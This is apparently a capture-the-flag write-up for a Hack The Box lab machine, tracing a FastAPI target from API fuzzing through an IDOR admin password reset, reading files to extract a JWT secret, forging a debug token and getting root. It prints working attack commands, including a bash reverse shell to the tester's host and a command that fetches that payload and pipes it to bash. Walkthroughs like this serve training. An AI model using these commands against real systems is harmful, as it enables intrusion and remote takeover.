



Exploitation Summary
Exploitation process: The target machine was running a FastAPI application built with Python and Uvicorn. Through API fuzzing, I discovered multiple endpoints including authentication mechanisms and administrative functions. By creating a new user account and analyzing the JWT token structure, I identified that users have a guid attribute and an is_superuser flag.
The application exposed an OpenAPI specification at /openapi.json which revealed all available endpoints, including a privileged /api/v1/user/SecretFlagEndpoint that provided the user flag, and administrative endpoints like /admin/file and /admin/exec/{command}. I exploited a password update endpoint that allowed me to change the administrator's password using their known GUID, gaining administrative access.
Using the administrative file reading endpoint, I performed path traversal to read /proc/self/cmdline and /proc/self/environ, discovering the application's source code location at /home/htb/uhc/app/main.py. By reading the configuration file at /home/htb/uhc/app/core/settings.py, I extracted the JWT signing secret: SuperSecretSigningKey-HTB.
With this secret, I forged a JWT token with the debug flag set to true, bypassing the authentication check on the command execution endpoint. I used this to execute arbitrary commands, obtaining a reverse shell as the htb user. Finally, I discovered a failed login attempt in the authentication logs containing the password Tr0ub4dor&3, which granted me root access via su.
Technologies/Exploits: FastAPI API enumeration, JWT token analysis and forgery, insecure direct object reference (IDOR) for password updates, path traversal via file reading endpoint, command injection through privileged administrative endpoint, credential disclosure in application logs.
Initial Reconnaissance
Starting with an nmap scan to identify the services running on the target:

The scan reveals two open ports: SSH on port 22 and an HTTP server on port 80. The presence of Uvicorn indicates that the backend is running a Python-based web application, most likely built with FastAPI or a similar framework.
Web Enumeration - API Discovery
Visiting the root URL, I'm greeted with a simple JSON response:
{"msg":"UHC API Version 1.0"}This confirms we're dealing with an API. I proceed with directory fuzzing using feroxbuster to discover additional endpoints:
feroxbuster -u http://10.10.11.161 -w /usr/share/wordlists/dirb/common.txtThe fuzzing reveals two interesting paths:
/docs- Returns HTTP 401 (Unauthorized)/api- Returns HTTP 200 with minimal content
Navigating to /api, I find a reference to /v1. Accessing /api/v1 shows available endpoint categories:
{"endpoints":["user","admin"]}Testing User and Admin Endpoints
I attempt to access both endpoints:
/api/v1/user- Returns "not found"/api/v1/admin- Returns "not authenticated"
Testing different user IDs at /api/v1/user/1 reveals information about a user:

The response shows a user with GUID 36c2e94a-4271-4259-93bf-c96ad5948284 and email admin@htb.local who has is_superuser set to true. The IDs appear to be auto-incremental starting from 1, though testing IDs 2 and 3 returns no results.
HTTP Method Fuzzing
I expand my enumeration by fuzzing for POST, PUT, and DELETE methods specifically:
feroxbuster -u http://10.10.11.161/api/v1 -w /usr/share/wordlists/dirb/common.txt -m POST,PUT,DELETEUnder /api/v1/admin, I discover:
401 POST /api/v1/admin/fileUnder /api/v1/user, I find authentication-related endpoints:
422 POST /api/v1/user/login
422 POST /api/v1/user/signupAuthentication - Creating an Account
Now that I've identified the authentication endpoints, I proceed to create a test account:
curl -X POST "http://10.10.11.161/api/v1/user/signup" \
-H "Content-Type: application/json" \
-d '{"username":"testuser", "email": "test@test.com", "password": "testpass"}'The signup succeeds, returning an empty JSON object. Next, I attempt to log in. Through experimentation, I discover that the username field in the login request actually expects the email address:
curl -X POST "http://10.10.11.161/api/v1/user/login" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=test@test.com&password=testpass"The response provides a JWT access token:
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...","token_type":"bearer"}JWT Token Analysis
Decoding the JWT token reveals its structure:
{
"type": "access_token",
"exp": 1768407713,
"iat": 1767716513,
"sub": "2",
"is_superuser": false,
"guid": "b32bd5e1-07fd-4dc2-a338-9b56ce283556"
}Key observations:
sub: User ID (2, since admin is 1)is_superuser: Boolean flag for administrative privilegesguid: Unique identifier for the user- No
debugflag present
OpenAPI Documentation Discovery
With a valid JWT token, I revisit the /docs endpoint, which now returns an HTML page. The page contains a reference to /openapi.json:
const ui = SwaggerUIBundle({
url: '/openapi.json',
"dom_id": "#swagger-ui",
"layout": "BaseLayout"
});Accessing /openapi.json reveals the complete API specification, including all available endpoints, HTTP methods, and required parameters. I save and parse this file using jq for better readability:
curl http://10.10.11.161/openapi.json | jq '.' > endpoints.jsonThe specification indicates the application is built with FastAPI version 0.1.0 and uses OpenAPI 3.0.2.
Discovering the User Flag Endpoint
While examining the OpenAPI specification, I discover an interesting endpoint:
"/api/v1/user/SecretFlagEndpoint": {
"put": {
"summary": "Secret Flag Endpoint",
"description": "Returns the user flag"
}
}I immediately test this endpoint with my authenticated token:
curl -X PUT "http://10.10.11.161/api/v1/user/SecretFlagEndpoint" \
-H "Authorization: Bearer {token}"Success! The response contains the user flag:
{"user.txt":"[REDACTED]"}Path to Administrative Access
Continuing my analysis of the OpenAPI specification, I identify two powerful administrative endpoints:
/api/v1/admin/file- File reading endpoint/api/v1/admin/exec/{command}- Command execution endpoint with the description: "Executes a command. Requires Debug Permissions."
The command execution endpoint is particularly interesting, as it would allow me to obtain a reverse shell. However, it requires both administrative access and a special "Debug" permission.
Attempting Privilege Escalation via Signup
I first attempt to create a new user with is_superuser set to true:
curl -X POST "http://10.10.11.161/api/v1/user/signup" \
-H "Content-Type: application/json" \
-d '{"username":"adminuser", "email": "admin2@test.com", "password": "test", "is_superuser": true}'The request succeeds, but the is_superuser flag is silently ignored - the API returns an empty JSON object, and subsequent login shows my new user is still a regular user.
Exploiting the Password Update Endpoint
The OpenAPI specification reveals another endpoint: /api/v1/user/updatepass, which accepts a guid and a new password. This presents an Insecure Direct Object Reference (IDOR) vulnerability - I can potentially change any user's password if I know their GUID.
Earlier, I discovered that the admin user has the GUID 36c2e94a-4271-4259-93bf-c96ad5948284. I attempt to change the admin's password:
curl -X POST "http://10.10.11.161/api/v1/user/updatepass" \
-H "Content-Type: application/json" \
-d '{"guid":"36c2e94a-4271-4259-93bf-c96ad5948284", "password": "newpass"}'The response confirms the password has been updated:
{
"date": null,
"id": 1,
"is_superuser": true,
"hashed_password": "$2b$12$xh2jt67ziB4G2j6raMXvtu6bE1RlJ5JYmugUcFV2y0RIsWVMh4V7a",
"guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
"email": "admin@htb.local",
"time_created": 1649533388111,
"last_update": null
}Now I can log in as the administrator:
curl -X POST "http://10.10.11.161/api/v1/user/login" \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "username=admin@htb.local&password=newpass"The response provides an administrative JWT token:
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...","token_type":"bearer"}Path Traversal via File Reading Endpoint
With administrative access, I can now test the /api/v1/admin/file endpoint. However, attempting to use the command execution endpoint reveals another barrier:
curl "http://10.10.11.161/api/v1/admin/exec/id" \
-H "Authorization: Bearer {admin_token}"Response:
{"detail":"Debug key missing from JWT"}The command execution endpoint requires a debug key in the JWT token. To forge such a token, I need to discover the JWT signing secret.
Enumerating the Filesystem
I use the file reading endpoint to perform path traversal and enumerate the system. First, I check /etc/passwd:
curl -X POST "http://10.10.11.161/api/v1/admin/file" \
-H "Authorization: Bearer {admin_token}" \
-H "Content-Type: application/json" \
-d '{"file": "/etc/passwd"}' | grep shThe output reveals a user named htb with a home directory at /home/htb and a shell at /bin/bash.
Discovering the Application Path
To understand where the application code is located, I read /proc/self/cmdline:
curl -X POST "http://10.10.11.161/api/v1/admin/file" \
-H "Authorization: Bearer {admin_token}" \
-H "Content-Type: application/json" \
-d '{"file": "/proc/self/cmdline"}'Response:
{"file":"/home/htb/uhc/.venv/bin/python3\u0000-c\u0000from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7)\u0000--multiprocessing-fork\u0000"}This reveals the application is running from /home/htb/uhc. I confirm this by reading /proc/self/environ:
curl -X POST "http://10.10.11.161/api/v1/admin/file" \
-H "Authorization: Bearer {admin_token}" \
-H "Content-Type: application/json" \
-d '{"file": "/proc/self/environ"}'The environment variables show:
APP_MODULE=app.main:app
PWD=/home/htb/uhc
HOME=/home/htb
VIRTUAL_ENV=/home/htb/uhc/.venvThe APP_MODULE variable indicates the main application file is at app/main.py.
Extracting the JWT Secret
I read the main application file:
curl -X POST "http://10.10.11.161/api/v1/admin/file" \
-H "Authorization: Bearer {admin_token}" \
-H "Content-Type: application/json" \
-d '{"file": "/home/htb/uhc/app/main.py"}'In main.py, I find an import statement:
from app.core.config import settingsThis indicates there's a configuration file at app/core/config.py or app/core/settings.py. I try reading the settings file:
curl -X POST "http://10.10.11.161/api/v1/admin/file" \
-H "Authorization: Bearer {admin_token}" \
-H "Content-Type: application/json" \
-d '{"file": "/home/htb/uhc/app/core/settings.py"}'Success! The configuration file contains several sensitive values:
JWT_SECRET: str = "SuperSecretSigningKey-HTB"
SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///uhc.db"
FIRST_SUPERUSER: EmailStr = "root@ippsec.rocks"I now have the JWT signing secret: SuperSecretSigningKey-HTB.
JWT Forgery and Command Execution
With the JWT secret, I can forge a token that includes the debug flag. I use an online JWT debugger or a Python script to create a new token with the following payload:

The key modification is adding "debug": true to the payload, along with maintaining "is_superuser": true. I sign this with the secret SuperSecretSigningKey-HTB using the HS256 algorithm.
Testing Command Execution
With my forged token, I test the command execution endpoint:
curl "http://10.10.11.161/api/v1/admin/exec/id" \
-H "Authorization: Bearer {forged_token}"Response:
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"Excellent! I now have command execution as the htb user.
Obtaining a Reverse Shell
To get a proper shell, I need to execute a reverse shell payload. However, passing complex commands with special characters through a URL path is problematic - the forward slashes in /dev/tcp/ get interpreted as path separators, and even URL encoding doesn't help.
My solution is to host the reverse shell payload on my attacking machine and have the target fetch and execute it:
Setting Up the Payload
I create an index.html file containing a bash reverse shell:
cat > index.html << 'EOF'
bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"
EOFI start a Python HTTP server to serve this file:
python3 -m http.server 8000Then I set up a netcat listener to catch the reverse shell:
sudo nc -lvnp 443Triggering the Reverse Shell
I execute the following command through the API, which fetches my payload and pipes it to bash:
curl "http://10.10.11.161/api/v1/admin/exec/curl%2010.10.16.2:8000%20|bash" \
-H "Authorization: Bearer {forged_token}"My Python server logs the request:
10.10.11.161 - - "GET / HTTP/1.1" 200 -And my netcat listener receives the connection:
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.161] 40450
bash: cannot set terminal process group (668): Inappropriate ioctl for device
bash: no job control in this shell
htb@backend:~/uhc$I now have a shell as the htb user.
Privilege Escalation to Root
After stabilizing my shell, I begin enumerating the system for privilege escalation vectors. While exploring the application directory, I discover an authentication log file:
cat ~/uhc/auth.logAmong the entries, I find a failed login attempt that reveals what appears to be a password:
01/06/2026, 15:39:26 - Login Failure for Tr0ub4dor&3The string Tr0ub4dor&3 looks like a password that was accidentally entered as a username. I test this password with the htb user:
su htb
Password: Tr0ub4dor&3This doesn't work, but trying it with root succeeds:
su root
Password: Tr0ub4dor&3I'm now root and can retrieve the root flag, completing the machine.